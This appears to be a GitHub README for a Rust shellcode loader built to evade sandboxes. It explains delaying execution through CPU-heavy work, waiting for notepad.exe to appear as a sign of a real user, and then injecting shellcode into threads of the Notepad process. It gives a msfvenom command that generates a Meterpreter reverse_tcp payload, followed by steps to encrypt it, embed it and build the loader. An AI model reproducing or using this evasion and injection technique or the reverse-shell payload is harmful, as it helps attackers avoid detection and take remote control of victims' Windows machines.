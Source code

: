 ## **Bypassing Sandbox Detection Test**

As is well known, it is not realistic to achieve delays using the `sleep` function in a sandbox environment. Sandboxes often detect and flag such behavior as suspicious or evasive.

Instead, more effective techniques involve:

- Performing **CPU-intensive calculations**
- Implementing **inefficient algorithms**
- Waiting for **specific instructions in a loop** to bypass detection

These methods simulate legitimate resource consumption and delay execution without triggering common sandbox heuristics.

### **Triggering Execution Based on Notepad Detection**

In many sandbox environments, there is usually **no user interaction or typical desktop activity**, such as opening Notepad (`notepad.exe`). This behavioral difference can be leveraged for evasion.

We utilize this by:

1. Using **Notepad** as a designated indicator of a real user environment
2. Monitoring for the presence of the Notepad process
3. Once detected, executing shellcode through new **threads** within the Notepad process

This technique helps ensure that malicious payloads are only executed in environments that closely resemble real user systems — not in automated sandboxes.

### **Usage Instructions**

#### 1. Generate Shellcode with `msfvenom`

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f rust
```

#### 2. Encrypt the Shellcode by enc/src/main.rs

#### 3. Update the run/src/main.rs shellcode

#### 4. Run cargo build



----------------------------------------------------------------------------------
![1](https://github.com/user-attachments/assets/e77ba48a-fa39-42ed-9198-ba8ae39e1ca3)
![2](https://github.com/user-attachments/assets/2aede2e8-60dc-48d8-a91b-8335446677ec)
![3](https://github.com/user-attachments/assets/337a20b0-1d55-4199-af1a-25d246c77c63)

-----------------------------------------------------------------------------------







  
